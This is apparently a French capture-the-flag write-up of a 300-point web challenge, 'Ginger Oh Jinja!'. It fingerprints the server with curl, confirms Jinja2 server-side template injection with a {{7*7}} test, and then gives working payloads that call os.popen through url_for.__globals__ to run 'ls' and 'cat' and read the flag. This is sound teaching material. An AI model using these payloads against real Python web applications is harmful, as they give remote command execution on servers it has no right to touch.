



* * *
# Ginger Oh Jinja!
> (Web, 300 points )
---
## Challenge :
> http://hackerlab.bj:5000/

Une fois qu'on clique sur le lien du challenge, on accède à une page web présentant un formulaire.



Lorsqu'on met un contenu dans le champ de texte, ce contenu est encore affiché à l'utilisateur. L'objectif serait d'identifier la vulnérabilité à exploiter sur cette page web pour injecter un contenu malveillant. Nous avions fait une injection **SQL, XSS, de commande système** mais sans suite. Nous nous sommes donc lancés dans des recherches sur le nom du challenge **"Ginger Oh Jinja"**. Nous avions trouvé des contenus qu'il convient pas d'énumérer ici. Car ces derniers ne nous ont aidé en rien. Il a fallu restreindre les recherches à **"ginger oh jinja vulnerabilities"** pour obtenir des contenus intéressants. Nous sommes tombés sur un article parlant de la vulnérabilité **jinja2 SSTI**. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection. Cette vulnérabilité est rattachée aux applications web écrites en python et faisant usage du moteur de template **jinja2**. Essayons de voir si l'application web à attaquer est écrite en python.
```console
root@Y3HW3_Hack3r:~/HackerLab2019# curl -v http://hackerlab.bj:5000/
*   Trying 51.83.76.195:5000...
* TCP_NODELAY set
* Connected to hackerlab.bj (51.83.76.195) port 5000 (#0)
> GET / HTTP/1.1
> Host: hackerlab.bj:5000
> User-Agent: curl/7.66.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 231
< Server: Werkzeug/0.16.0 Python/3.7.4
< Date: Sat, 23 Nov 2019 16:32:43 GMT
< 
* Closing connection 0
<!DOCTYPE html><html><body>    <form action="/" method="post">      Your code name cyber-amazone!<br>      <input type="text" name="name" value="">      <input type="submit" value="Submit">    </form><h2>Hello ! </h2></body></html>
```

En regardant le ```header``` de la réponse reçue du serveur, on constate que le serveur hébergeant l'application web fonctionne avait du **python 3.7.4**. Conclusion évidente, notre application web à attaquer est écrite en python. 
D'après l'article, pour tester si l'application web était vulnérable à l'attaque ```jinja2 Server Side Template Injection``` , il suffit juste de mettre la chaîne {{7```*```7}} comme ```input``` pour voir si la sortie serait ```49```. Un test rapide effectué révèle que l'application était bel et bien vulnérable à cette attaque. Il faudra donc exploiter cette vulnérabilité pour injecter des commandes systèmes, pouvant nous permettre d'extraire le ```flag```. De recherches en recherches, nous sommes tombés sur ce writeup de challenge (https://ctftime.org/writeup/11014). En lisant ce writeup, nous obtenons l'injection pouvant nous permettre d'afficher les fichiers se trouvant à la racine de la page chargée. 

### [ Trouver un moyen pour afficher le flag ] 
 1. Afficher les **fichiers au répertoire courant** : ```{{url_for.__globals__.os.__dict__.popen('ls').read()}}```
 
 
 2. Afficher le contenu du fichier **frferfrflag.txt** : ```{{url_for.__globals__.os.__dict__.popen('cat frferfrflag.txt').read()}}```
 

```Flag ```: **CTF_TemplateBestInjector**
